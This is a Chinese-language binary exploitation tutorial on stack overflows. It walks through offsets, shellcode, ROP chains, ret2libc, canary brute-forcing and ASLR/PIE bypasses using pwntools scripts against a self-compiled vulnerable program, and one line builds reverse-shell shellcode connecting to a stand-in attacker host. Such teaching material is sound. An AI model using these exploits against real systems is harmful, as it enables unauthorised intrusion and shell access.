


## 1. 栈溢出利用

栈溢出是二进制漏洞利用中最经典、最基础的攻击方式。自 1988 年 Morris Worm 首次大规模利用栈溢出以来，它一直是安全攻防的核心战场。理解栈溢出不仅是学习其他高级利用技术（堆利用、格式化字符串、内核漏洞）的前提，更是深入理解操作系统内存管理机制的最佳切入点。

本节从栈的底层运作机制讲起，逐步覆盖从最基础的返回地址覆写到绕过现代全保护（Canary + NX + ASLR + PIE）的完整攻击链。

### 1.1 栈的工作机制

#### 1.1.1 函数调用的完整过程

当 CPU 执行 `call` 指令时，硬件自动完成以下操作：

1. 将下一条指令地址（返回地址）压入栈
2. 跳转到目标函数地址

进入被调用函数后，编译器生成的函数序言（function prologue）执行：

```asm
; x86-64 函数序言
push   rbp          ; 保存调用者的栈帧基址
mov    rbp, rsp     ; 建立新栈帧
sub    rsp, N       ; 为局部变量分配空间
```

函数返回时，函数尾声（epilogue）执行逆操作：

```asm
; x86-64 函数尾声
mov    rsp, rbp     ; 恢复栈指针
pop    rbp          ; 恢复调用者的栈帧基址
ret                 ; 弹出返回地址并跳转
```

`ret` 指令本质上等价于 `pop rip`——它从栈顶取出 8 字节（64 位）或 4 字节（32 位），将其写入指令指针寄存器 RIP/EIP。**这就是栈溢出的核心攻击点：如果能覆盖栈上的返回地址，就能在 `ret` 执行时劫持程序的控制流。**

#### 1.1.2 栈帧布局：32 位 vs 64 位

32 位和 64 位系统的栈帧布局存在关键差异，直接影响溢出 payload 的构造方式：

```text
32位 (x86) 栈帧:                    64位 (x86-64) 栈帧:
高地址                               高地址
┌─────────────────┐                 ┌─────────────────┐
│  arg3 (栈传参)   │                 │  arg7+ (栈传参)  │
├─────────────────┤                 ├─────────────────┤
│  arg2            │                 │  返回地址 (8B)   │ ← 攻击目标
├─────────────────┤                 ├─────────────────┤
│  arg1            │                 │  保存的RBP (8B)  │
├─────────────────┤                 ├─────────────────┤
│  返回地址 (4B)   │ ← 攻击目标     │  局部变量/buf    │
├─────────────────┤                 │  (可能有对齐填充) │
│  保存的EBP (4B)  │                 └─────────────────┘
├─────────────────┤                 低地址
│  局部变量/buf    │
└─────────────────┘
低地址
```

**关键差异总结：**

| 特性 | 32 位 (x86) | 64 位 (x86-64) |
|------|------------|----------------|
| 返回地址大小 | 4 字节 | 8 字节 |
| 通用寄存器 | EAX/EBX/ECX/EDX | RAX/RBX/RCX/RDX/R8-R15 |
| 参数传递 | 全部通过栈 | 前 6 个通过 RDI/RSI/RDX/RCX/R8/R9，其余通过栈 |
| 栈对齐要求 | 4 字节对齐 | 16 字节对齐（call 后 RSP % 16 == 8） |
| 地址空间 | 4 GB | 48 位（128 TB 用户空间） |
| NULL 字节 | 无特殊问题 | 高地址含大量 `\x00`，影响 payload 构造 |

#### 1.1.3 栈增长方向与缓冲区溢出的关系

栈向低地址增长，而 `strcpy`、`gets` 等函数向高地址写入数据。这个方向的矛盾是溢出的根本原因：

```c
void vulnerable() {
    char buf[64];      // buf 在低地址
    gets(buf);         // 向高地址写入，可以覆盖 buf 之上的返回地址
}
```

内存示意：

```text
高地址
┌──────────────────┐
│   返回地址        │ ← gets() 写入足够长的数据会覆盖这里
├──────────────────┤
│   保存的 RBP      │ ← 先覆盖这里
├──────────────────┤
│   buf[48..63]     │
│   ...             │
│   buf[0..15]      │ ← gets() 从这里开始写
└──────────────────┘
低地址
```

### 1.2 基本栈溢出：劫持控制流

#### 1.2.1 漏洞程序与编译

以下是一个存在经典栈溢出漏洞的程序，用于演示最基本的利用方式——覆盖返回地址跳转到程序中另一个函数：

```c
// vuln.c - 存在栈溢出漏洞的程序
#include <stdio.h>
#include <string.h>

void secret_function() {
    printf("恭喜！你成功执行了 secret_function！\n");
    printf("这就是栈溢出的基本原理。\n");
}

void vulnerable_function() {
    char buffer[64];
    printf("请输入你的名字: ");
    gets(buffer);  // 危险！无边界检查
    printf("你好, %s!\n", buffer);
}

int main() {
    vulnerable_function();
    printf("程序正常退出。\n");
    return 0;
}
```

编译时需要关闭安全保护以便学习（在实际渗透中，目标程序的保护状态由环境决定）：

```bash
# -fno-stack-protector  关闭 Stack Canary
# -no-pie               关闭 PIE（固定基址）
# -z execstack          关闭 NX（允许栈执行）
# -g                    保留调试符号（便于学习）
gcc -g -fno-stack-protector -no-pie -z execstack -o vuln vuln.c

# 验证保护状态
checksec --file=./vuln
# 输出示例:
#     Arch:     amd64-64-little
#     RELRO:    Partial RELRO
#     Stack:    No canary found
#     NX:       NX disabled
#     PIE:      No PIE (0x400000)
```

#### 1.2.2 确定偏移量

溢出的第一步是精确计算从缓冲区起始到返回地址的字节偏移。有三种常用方法：

**方法一：模式字符串（推荐）**

```python
from pwn import *

# 生成唯一模式字符串，每 4/8 字节片段唯一
cyclic(200)  # 生成 200 字节的 de Bruijn 序列
# 例如: b'aaaabaaacaaadaaaeaaafaaagaaahaaa...'

# 在 GDB 中触发崩溃后，读取被覆盖的 RIP 值
# 假设 RIP = 0x6161616161616174 ("taaaaaaa")
cyclic_find(0x6161616161616174)  # 返回偏移量 = 72
```

**方法二：手动计算**

```text
偏移 = sizeof(buffer) + 对齐填充 + sizeof(saved_RBP)
     = 64 + 0 + 8
     = 72
```

注意：编译器可能在局部变量之间插入对齐填充字节，手动计算可能不准。推荐用 `cyclic` 方法精确确认。

**方法三：GDB 动态调试**

```bash
gdb ./vuln
(gdb) disas vulnerable_function
# 查看 buffer 的大小和栈帧布局
(gdb) b *vulnerable_function+0    # 在函数入口下断点
(gdb) r <<< $(python3 -c "print('A'*200)")
# 触发断点后检查:
(gdb) info frame          # 查看 saved RIP 的位置
(gdb) x/20gx $rsp         # 查看栈内容
```

#### 1.2.3 构造 Payload 并执行

```python
from pwn import *

elf = ELF('./vuln')
secret_addr = elf.symbols['secret_function']
print(f"secret_function 地址: {hex(secret_addr)}")

# 构造 payload:
#   72 字节填充（覆盖 buffer[64] + saved RBP[8]）
#   + 8 字节目标地址（覆盖返回地址）
payload = b'A' * 72 + p64(secret_addr)

p = process('./vuln')
p.sendline(payload)
print(p.recvall().decode())
# 输出: "恭喜！你成功执行了 secret_function！"
```

> **为什么是 72 字节？** buffer 大小 64 字节 + 保存的 RBP 8 字节 = 72 字节。超过这 72 字节的第一个 8 字节就是返回地址。32 位程序则需要 64 + 4 = 68 字节填充（`p32` 打包地址）。

#### 1.2.4 32 位与 64 位的 Payload 差异

```python
# 32 位 payload
payload_32 = b'A' * 68 + p32(target_addr)   # p32: 4字节小端序

# 64 位 payload
payload_64 = b'A' * 72 + p64(target_addr)   # p64: 8字节小端序
```

64 位程序还需注意地址中的 NULL 字节。例如地址 `0x0000000000401136` 的小端序表示包含前导 NULL，会在 `strcpy` 等函数中截断 payload。解决方案包括：

- 使用不含 NULL 的地址（如 libc 中的地址）
- 使用 `read` 等不过滤 NULL 的函数读入 payload
- 利用部分覆写（Partial Overwrite）只覆盖低 2-3 字节

### 1.3 Shellcode 注入与执行

#### 1.3.1 什么是 Shellcode

Shellcode 是一段精心构造的机器码，注入目标进程后能执行攻击者期望的操作（通常是启动 shell）。它必须满足以下约束：

| 约束 | 原因 |
|------|------|
| 不能包含 NULL 字节 (`\x00`) | NULL 是 C 字符串终止符，会截断 `strcpy`/`gets` 的输入 |
| 不能包含换行符 (`\x0a`) | `gets()` 用换行作为输入终止符 |
| 必须是位置无关代码（PIC） | 注入位置在运行时才能确定 |
| 尽可能短 | 缓冲区空间有限 |

#### 1.3.2 使用 pwntools 生成 Shellcode

```python
from pwn import *

context.arch = 'amd64'  # 或 'i386' 用于 32 位

# 方式一：使用内置模板（最常用）
sc = asm(shellcraft.sh())          # execve("/bin/sh", NULL, NULL)
print(f"Shellcode 长度: {len(sc)}")
print(f"Shellcode hex: {sc.hex()}")

# 方式二：绕过坏字符（NULL-free）
sc_no_null = asm(shellcraft.sh(), avoid=b'\x00')
print(f"无 NULL 字节 shellcode: {sc_no_null.hex()}")

# 方式三：执行任意命令
sc_cmd = asm(shellcraft.execve('/bin/sh', ['sh', '-c', 'id; whoami'], 0))
print(f"命令执行 shellcode: {sc_cmd.hex()}")

# 方式四：反弹 shell
sc_rev = asm(shellcraft.connect('attacker_ip', 4444) + shellcraft.sh())
print(f"反弹 shell shellcode: {sc_rev.hex()}")
```

#### 1.3.3 Shellcode 注入的两种模式

**模式一：栈上注入（需要可执行栈）**

```python
from pwn import *

context.arch = 'amd64'

elf = ELF('./vuln')
sc = asm(shellcraft.sh())

# 需要先泄露栈地址，或利用固定偏移
# 假设我们已知 shellcode 在栈上的位置为 stack_addr
# 这里用 GDB 获取一个示例地址
stack_addr = 0x7fffffffe0a0  # 实际需要动态获取

payload = sc + b'A' * (72 - len(sc)) + p64(stack_addr)

p = process('./vuln')
p.sendline(payload)
p.interactive()
```

**模式二：bss 段注入 + 栈执行跳转（更可靠）**

当栈地址不确定时，可以先将 shellcode 写入固定地址的 bss 段，再通过栈溢出跳转执行：

```python
from pwn import *

elf = ELF('./vuln')
rop = ROP(elf)

# 使用 read@plt 从 stdin 读取 shellcode 到 bss 段
bss_addr = elf.bss() + 0x200  # bss 段偏移，避免覆盖关键数据
read_plt = elf.plt['read']

# ROP 链：调用 read(0, bss_addr, shellcode_len)
# x86-64: 参数通过寄存器传递
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi = rop.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]

sc = asm(shellcraft.sh())

payload  = b'A' * 72
payload += p64(pop_rdi)
payload += p64(0)              # fd = stdin
payload += p64(pop_rsi)
payload += p64(bss_addr)       # buf = bss_addr
payload += p64(0)              # r15 垃圾值
payload += p64(read_plt)       # 调用 read()
payload += p64(bss_addr)       # read 返回后跳转到 shellcode

p = process('./vuln')
p.sendline(payload)
p.sendline(sc)                 # 第二次发送 shellcode
p.interactive()
```

### 1.4 ROP：Return-Oriented Programming

#### 1.4.1 为什么需要 ROP

现代系统默认开启 NX（No-eXecute）保护，栈和堆上的数据不可执行。直接注入 shellcode 的方式失效。ROP 的核心思想是：**不注入新代码，而是复用程序中已有的代码片段**。

这些代码片段以 `ret` 指令结尾，被称为 **gadget**。通过精心排列栈上的返回地址，可以将多个 gadget 串联成一条指令链，实现任意计算。

#### 1.4.2 ROP 的基本原理

```text
栈布局（ROP chain）:
┌──────────────────┐
│  gadget_1 地址    │  ← ret 跳转到这里
├──────────────────┤
│  gadget_2 地址    │  ← gadget_1 的 ret 跳转到这里
├──────────────────┤
│  gadget_3 地址    │  ← gadget_2 的 ret 跳转到这里
├──────────────────┤
│  ...             │
└──────────────────┘

执行流:
vuln_function 返回 → ret → gadget_1 → ret → gadget_2 → ret → gadget_3 → ...
```

#### 1.4.3 常用 Gadget 类型

| Gadget | 作用 | 典型用途 |
|--------|------|----------|
| `pop rdi; ret` | 将栈上值弹入 RDI | 设置函数第 1 个参数 |
| `pop rsi; pop r15; ret` | 将栈上值弹入 RSI | 设置函数第 2 个参数 |
| `pop rdx; ret` | 将栈上值弹入 RDX | 设置函数第 3 个参数 |
| `pop rax; ret` | 将栈上值弹入 RAX | 设置系统调用号 |
| `syscall; ret` | 执行系统调用 | 直接调用 execve |
| `ret` | 仅返回 | 栈对齐（16 字节对齐） |
| `mov [rdi], rax; ret` | 写内存 | 将值写入任意地址 |
| `xchg rax, rdi; ret` | 交换寄存器 | 间接设置参数 |

#### 1.4.4 使用 pwntools 构建 ROP 链

**调用 system("/bin/sh")（ret2system）：**

```python
from pwn import *

elf = ELF('./vuln')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# 查找 gadgets
rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret     = rop.find_gadget(['ret'])[0]  # 用于栈对齐

# 方法一：程序中有 system 且有 "/bin/sh" 字符串
if 'system' in elf.symbols:
    system_addr = elf.symbols['system']
    bin_sh_addr = next(elf.search(b'/bin/sh'))

    payload  = b'A' * 72
    payload += p64(ret)           # 栈对齐（部分 libc 的 system 需要 16 字节对齐）
    payload += p64(pop_rdi)
    payload += p64(bin_sh_addr)   # RDI = "/bin/sh"
    payload += p64(system_addr)   # 调用 system("/bin/sh")

# 方法二：程序中没有 system，需要从 libc 获取（见 1.5 ret2libc）
```

**调用 execve 系统调用（Syscall ROP）：**

```python
from pwn import *

elf = ELF('./vuln')
rop = ROP(elf)

pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi = rop.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]
pop_rdx = rop.find_gadget(['pop rdx', 'ret'])[0]  # 可能不存在
pop_rax = rop.find_gadget(['pop rax', 'ret'])[0]
syscall = rop.find_gadget(['syscall', 'ret'])[0]

# execve("/bin/sh", NULL, NULL)
# syscall number: 59 (x86-64)
bin_sh_addr = next(elf.search(b'/bin/sh'))

payload  = b'A' * 72
payload += p64(pop_rdi)
payload += p64(bin_sh_addr)   # arg1: filename = "/bin/sh"
payload += p64(pop_rsi)
payload += p64(0)             # arg2: argv = NULL
payload += p64(0)             # padding for pop r15
payload += p64(pop_rdx)
payload += p64(0)             # arg3: envp = NULL
payload += p64(pop_rax)
payload += p64(59)            # syscall number = __NR_execve
payload += p64(syscall)       # 触发系统调用
```

**使用 pwntools 自动生成 ROP 链：**

```python
from pwn import *

elf = ELF('./vuln')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# pwntools 可以自动构建 ROP 链
rop = ROP([elf, libc])

# 自动选择 gadgets 并调用 system("/bin/sh")
rop.system(next(libc.search(b'/bin/sh')))

payload = b'A' * 72 + rop.chain()
print(rop.dump())  # 打印 ROP 链的详细信息
```

#### 1.4.5 查找 Gadget 的工具

除了 pwntools 内置的 `ROP()` 类，还可以使用专用工具：

```bash
# ROPgadget - 最常用的 gadget 搜索工具
ROPgadget --binary ./vuln --only "pop|ret"
ROPgadget --binary ./vuln --only "pop|ret" | grep rdi

# 搜索 libc 中的 gadgets
ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 --only "pop|ret"

# ropper - 另一个强大的工具
ropper --file ./vuln --search "pop rdi"
ropper --file ./vuln --search "syscall"

# one_gadget - 在 libc 中搜索 "magic gadget"
# 只需跳转到一个地址就能 getshell，不需要构造完整 ROP 链
one_gadget /lib/x86_64-linux-gnu/libc.so.6
# 输出示例:
# 0xe3b01 execve("/bin/sh", rsp+0x40, environ)
# constraints:
#   [rsp+0x40] == NULL
```

### 1.5 绕过安全保护机制

现代 Linux 系统默认开启多种安全保护。掌握绕过这些保护的技术是实战利用的必备能力。

#### 1.5.1 绕过 NX/DEP：ret2libc

当栈不可执行时，不能直接执行栈上的 shellcode。ret2libc 通过跳转到 libc 中已有的 `system()` 函数来获取 shell。

**核心挑战：** 在 ASLR 开启的情况下，libc 的加载地址每次运行都不同。需要先泄露一个 libc 地址，再计算偏移。

**完整攻击流程：**



**完整 Exploit 脚本：**

```python
from pwn import *

context.arch = 'amd64'
elf = ELF('./vuln')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

p = process('./vuln')

# === 第一次溢出：泄露 puts 的真实地址 ===
rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret     = rop.find_gadget(['ret'])[0]
puts_plt = elf.plt['puts']      # puts 在 PLT 中的地址
puts_got = elf.got['puts']      # puts 在 GOT 中的地址（存放真实地址）

log.info(f"puts@PLT: {hex(puts_plt)}")
log.info(f"puts@GOT: {hex(puts_got)}")

payload1  = b'A' * 72
payload1 += p64(pop_rdi)
payload1 += p64(puts_got)       # 参数: puts@GOT（包含 puts 的真实地址）
payload1 += p64(puts_plt)       # 调用 puts(puts@GOT)，打印 puts 的真实地址
payload1 += p64(elf.symbols['main'])  # 返回 main，进行第二次溢出

p.sendline(payload1)
p.recvuntil(b'\n')

# 接收泄露的地址（8 字节，可能包含 NULL 被截断）
leaked = p.recvline().rstrip(b'\n')
# 如果泄露的字节不足 8，用 NULL 补齐
leaked = leaked.ljust(8, b'\x00')
puts_real = u64(leaked)
log.success(f"泄露的 puts 真实地址: {hex(puts_real)}")

# === 计算 libc 基址 ===
libc_base = puts_real - libc.symbols['puts']
log.info(f"libc 基址: {hex(libc_base)}")

system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))
log.info(f"system: {hex(system_addr)}")
log.info(f"/bin/sh: {hex(bin_sh_addr)}")

# === 第二次溢出：调用 system("/bin/sh") ===
payload2  = b'A' * 72
payload2 += p64(ret)            # 栈对齐（有些 libc 版本的 system 需要 RSP 16 字节对齐）
payload2 += p64(pop_rdi)
payload2 += p64(bin_sh_addr)
payload2 += p64(system_addr)

p.sendline(payload2)
p.interactive()                 # 获得 shell！
```

#### 1.5.2 绕过 Stack Canary

Stack Canary 在返回地址之前插入一个随机值。如果溢出覆盖了 Canary，函数返回前会检测到并终止程序。

**绕过方法一：信息泄露 Canary**

如果程序存在格式化字符串漏洞或其它信息泄露点，可以直接读取 Canary 值：

```python
# 假设通过格式化字符串泄露了 canary（64 位 canary 以 \x00 结尾）
leaked_canary = u64(b'\x00' + leaked_bytes[1:8])
log.info(f"Canary: {hex(leaked_canary)}")

payload  = b'A' * 64          # 填充 buffer
payload += p64(leaked_canary)  # 填入正确的 Canary
payload += p64(0)              # 覆盖 saved RBP
payload += p64(target_addr)    # 覆盖返回地址
```

**绕过方法二：覆盖 Canary 之前的变量**

如果栈上有函数指针、回调函数或 GOT 相关的指针变量位于 Canary 之前，可以只覆盖这些变量而不触碰 Canary。

**绕过方法三：利用 fork 的 Canary 不变特性**

当程序通过 `fork()` 创建子进程时，子进程继承父进程的 Canary。如果程序是一个循环处理请求的服务器（fork-per-request 模型），Canary 每次相同，可以逐字节爆破：

```python
# Canary 爆破（64 位，8 字节，第 1 字节固定为 \x00）
import itertools

def try_canary(canary_so_far, byte_val):
    payload = b'A' * 64 + canary_so_far + bytes([byte_val])
    # ... 发送 payload 到服务，观察是否崩溃 ...

canary = b'\x00'
for i in range(1, 8):  # 还需爆破 7 字节
    for b in range(256):
        if try_canary(canary, b):
            canary += bytes([b])
            break
    else:
        print("爆破失败")
        break

print(f"Canary: {canary.hex()}")
```

#### 1.5.3 绕过 ASLR/PIE

ASLR 随机化栈、堆、libc 的基址；PIE 进一步随机化程序自身的基址。

**方法一：信息泄露（最通用）**

通过漏洞泄露 GOT 表中的函数真实地址，再计算偏移：

```python
# 泄露 libc 函数的真实地址
# 已知泄露的地址 = libc_base + 函数在 libc 中的偏移
libc_base = leaked_addr - libc.symbols['泄露的函数名']

# 计算其他函数地址
system = libc_base + libc.symbols['system']
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
```

**方法二：部分覆写（Partial Overwrite）**

只覆写返回地址的低 2-3 字节，利用 ASLR 的随机化粒度（页对齐 = 0x1000）：

```python
# 只覆写低 2 字节（跳转到同一页面内的不同地址）
# 假设原返回地址指向 0x0000555555555120
# 覆写低 2 字节为 0x5160 → 跳转到 0x0000555555555160
# 高位地址不受影响
target_offset = 0x5160  # 目标函数在同一页面中的偏移
payload = b'A' * 72 + p16(target_offset)

# 成功率 = 1/16（只需要碰运气低 12 位中的 4 位）
# 因为页内偏移不变，只需要猜 ASLR 对高位的随机化
```

**方法三：ret2plt（绕过 ASLR 且不依赖 libc）**

PLT 表的地址不随 ASLR 变化（在非 PIE 程序中），可以直接利用：

```python
# 直接使用 PLT 中的函数，不需要知道 libc 地址
puts_plt = elf.plt['puts']    # 固定地址，不受 ASLR 影响
```

**方法四：利用 /proc/pid/mem 或 core dump**

在某些受限环境中，可以利用 core dump 泄露内存布局。

### 1.6 绕过栈对齐与 16 字节对齐问题

在 x86-64 上，`call` 指令执行后，RSP 的值对 16 取模等于 8（因为 call 压入了 8 字节返回地址）。`system()` 等 libc 函数内部使用 `movaps` 指令，要求 RSP 16 字节对齐。如果直接跳转到 `system()`，RSP 未对齐，会导致 SIGSEGV 崩溃。

**解决方案：在跳转前插入一个 `ret` gadget**

```python
ret = rop.find_gadget(['ret'])[0]

payload  = b'A' * 72
payload += p64(ret)            # 额外的 ret，调整 RSP 对齐
payload += p64(pop_rdi)
payload += p64(bin_sh_addr)
payload += p64(system_addr)
```

**原理：** 每执行一次 `ret`，RSP 增加 8。多执行一次 `ret` 就能让 RSP 从 "对 16 取模 = 8" 变为 "对 16 取模 = 0"。

### 1.7 高级 ROP 技术

#### 1.7.1 ret2csu（通用 Gadget）

当程序中可利用的 gadget 极少时，`__libc_csu_init` 中的代码是万能的。几乎所有动态链接的 ELF 程序都包含这个函数，它提供了可以控制 RDI、RSI、RDX 的通用 gadget。

```asm
; __libc_csu_init 尾部的通用 gadget
; gadget_2 (pop 系列)
pop rbx
pop rbp
pop r12
pop r13
pop r14
pop r15
ret

; gadget_1 (call 系列)
mov rdx, r14       ; ← 可控 rdx (第 3 个参数)
mov rsi, r13       ; ← 可控 rsi (第 2 个参数)
mov edi, r12d      ; ← 可控 edi (第 1 个参数，低 32 位)
call [r15 + rbx*8] ; ← 可控调用目标
add rbx, 1
cmp rbp, rbx
jne ...            ; 不跳转，继续执行
add rsp, 8
pop rbx ... pop r15
ret
```

**利用方式：**

```python
from pwn import *

elf = ELF('./vuln')

# ret2csu 需要的两个 gadget 地址
csu_pop = 0x40089a    # pop rbx~r15; ret（具体地址需根据目标程序确定）
csu_call = 0x400880   # mov rdx,r14; mov rsi,r13; mov edi,r12d; call [r15+rbx*8]

def ret2csu(call_target, rdi, rsi, rdx):
    """通用的 ret2csu 封装函数"""
    payload  = p64(csu_pop)
    payload += p64(0)              # rbx = 0（使 rbx*8 = 0）
    payload += p64(1)              # rbp = 1（cmp rbp, rbx 时不跳转）
    payload += p64(rdi)            # r12 → edi (arg1)
    payload += p64(rsi)            # r13 → rsi (arg2)
    payload += p64(rdx)            # r14 → rdx (arg3)
    payload += p64(call_target)    # r15 → call [r15+rbx*8]
    payload += p64(csu_call)
    payload += b'\x00' * 56        # add rsp,8 + 6 pops = 56 字节填充
    return payload

# 示例：用 ret2csu 调用 write(1, got_entry, 8) 来泄露 GOT
write_got = elf.got['write']
payload  = b'A' * 72
payload += ret2csu(write_got, 1, write_got, 8)
```

#### 1.7.2 SROP（Sigreturn-Oriented Programming）

SROP 利用 Linux 的信号处理机制。当进程收到信号时，内核会将当前寄存器状态保存到栈上的 `sigcontext` 结构中。信号返回时，`sigreturn` 系统调用会从栈上恢复所有寄存器——包括 RIP、RSP 和系统调用参数。

攻击者伪造一个 `sigcontext` 结构，只需一个 `syscall; ret` gadget 就能一次性控制所有寄存器并执行任意系统调用。

```python
from pwn import *

context.arch = 'amd64'

# pwntools 提供了 SROP 框架
frame = SigreturnFrame()
frame.rax = 59           # sys_execve
frame.rdi = bin_sh_addr  # "/bin/sh"
frame.rsi = 0            # argv = NULL
frame.rdx = 0            # envp = NULL
frame.rip = syscall_addr # 跳转到 syscall

# 构造触发 sigreturn 的 payload
# 先设置 rax = 15 (sys_sigreturn)
payload  = b'A' * 72
payload += p64(pop_rax_gadget)
payload += p64(15)       # rax = __NR_sigreturn
payload += p64(syscall_addr)  # 触发 sigreturn
payload += bytes(frame)  # 伪造的 sigcontext（恢复所有寄存器）
```

#### 1.7.3 Stack Pivoting（栈迁移）

当可用的栈溢出空间太小，不足以放置完整的 ROP 链时，可以通过修改 RSP 将栈"迁移"到攻击者可控的内存区域（如 bss 段）。

```python
# 常用的 stack pivot gadget:
# leave; ret   等价于: mov rsp, rbp; pop rbp; ret
# xchg rsp, rax; ret   等价于: 将 rax 的值设为新的 RSP

# 方法一：利用 leave; ret
# 第一次溢出：将 saved RBP 覆盖为 bss 地址
bss_addr = elf.bss() + 0x500

# 第一步：溢出覆盖 saved RBP = bss_addr
# 函数返回时执行 leave → mov rsp, rbp (现在是 bss_addr) → pop rbp
# 然后执行 ret → 从 bss_addr+8 取返回地址
payload1  = b'A' * 64          # 填充 buffer
payload1 += p64(bss_addr)      # 覆盖 saved RBP（leave 后 RSP 指向这里）
payload1 += p64(leave_ret)     # 覆盖返回地址 → 执行 leave; ret

# 第二步：在 bss 上布置完整的 ROP 链
payload2 = p64(0)              # 占位（leave 的 pop rbp 会消耗这个）
payload2 += 完整的_ROP_chain

# 发送顺序：先发 payload1 触发 pivot，再发 payload2（bss 上的内容需提前写入）
```

### 1.8 实战调试：从崩溃到完整 Exploit

以一个完整的调试过程演示如何从零开始分析和利用栈溢出。

#### 1.8.1 GDB 调试实战

```bash
# 安装 pwndbg（GDB 增强插件，推荐）
git clone https://github.com/pwndbg/pwndbg
cd pwndbg && ./setup.sh

# 调试流程
gdb ./vuln

# 1. 反汇编目标函数
(gdb) disas vulnerable_function
# 查看 buffer 大小、栈帧结构

# 2. 下断点并运行
(gdb) b *vulnerable_function+0   # 函数入口
(gdb) r <<< $(python3 -c "print('A'*80)")

# 3. 查看栈布局
(gdb) x/30gx $rsp
# 找到 buffer 起始位置、saved RBP、返回地址的偏移

# 4. 触发崩溃，确认控制了 RIP
(gdb) r <<< $(python3 -c "print('A'*80)")
# SIGSEGV at RIP = 0x4141414141414141 ← 确认控制了返回地址

# 5. 使用 pwndbg 的特殊命令
pwndbg> cyclic 200            # 生成模式
pwndbg> cyclic -l 0x61616174  # 查找偏移
pwndbg> vmmap                 # 查看内存映射（确认 NX/PIE 状态）
pwndbg> checksec              # 查看保护状态
```

#### 1.8.2 完整的利用流程



### 1.9 常见误区与避坑指南

#### 误区一：忽略栈对齐导致 Segfault

**症状：** payload 看起来完全正确，但程序在 `system()` 入口处 SIGSEGV。

**原因：** x86-64 下 `system()` 内部使用 `movaps` 指令，要求 RSP 16 字节对齐。

**修复：** 在 ROP 链最前面加一个 `ret` gadget 调整对齐。

```python
# 错误
payload = b'A' * 72 + p64(pop_rdi) + p64(bin_sh) + p64(system)

# 正确
payload = b'A' * 72 + p64(ret) + p64(pop_rdi) + p64(bin_sh) + p64(system)
```

#### 误区二：地址中的 NULL 字节截断 Payload

**症状：** payload 没有被完整写入，返回地址只覆写了一部分。

**原因：** `strcpy`、`gets` 等函数遇到 `\x00` 停止读取。64 位地址常以 `\x00\x00\x00\x00` 开头。

**修复：**
- 使用 `read()` 等不限制 NULL 的函数读入 payload
- 使用 partial overwrite 只覆写低字节
- 选择地址中不含 NULL 的 gadget 或函数

#### 误区三：偏移量计算错误

**症状：** 覆盖了返回地址但跳转到错误位置，或根本没有控制 RIP。

**原因：** 编译器可能在变量之间插入对齐填充，手动计算的偏移量不准。

**修复：** 始终使用 `cyclic` 工具通过动态调试确认偏移量。

